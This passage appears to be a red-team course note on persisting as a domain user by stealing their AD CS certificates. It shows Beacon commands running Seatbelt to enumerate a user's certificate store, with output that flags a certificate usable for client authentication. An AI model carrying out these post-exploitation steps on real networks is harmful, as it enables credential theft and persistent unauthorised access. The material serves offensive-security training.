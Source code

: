 This does not rely on any vulnerable templates.

{% hint style="success" %}
<mark style="color:$success;">**We can extract certificates that have been already issues or just request new ones**</mark>**.**
{% endhint %}

### User Persistence

**User certificates that have already been issued can be found in the user's Personal Certificate Store:**

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**If we have a&#x20;**<mark style="color:yellow;">**Beacon running on their machine**</mark>**,&#x20;**<mark style="color:$success;">**we can enumerate their certificates with Seatbelt**</mark>**:**

```
beacon> getuid
[*] You are DEV\nlamb

beacon> run hostname
wkstn-1

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates

  StoreLocation      : CurrentUser
  Issuer             : CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Subject            : E=nlamb@cyberbotic.io, CN=Nina Lamb, CN=Users, DC=dev, DC=cyberbotic, DC=io
  ValidDate          : 9/7/2022 11:44:35 AM
  ExpiryDate         : 9/7/2023 11:44:35 AM
  HasPrivateKey      : True
  KeyExportable      : True
  Thumbprint         : 43FA3C3AE4E1212A3F888937745C2E2F55BAC1B5
  Template           : User
  EnhancedKeyUsages  :
       Encrypting File System
       Secure Email
       Client Authentication     [!] Certificate is used for client authentication!
```

{% hint style="info" %}
See the alert on the last line?? _<mark style="color:$success;">**Always ensure the certificate is used for client authentication**</mark>_.
{% endhint %}
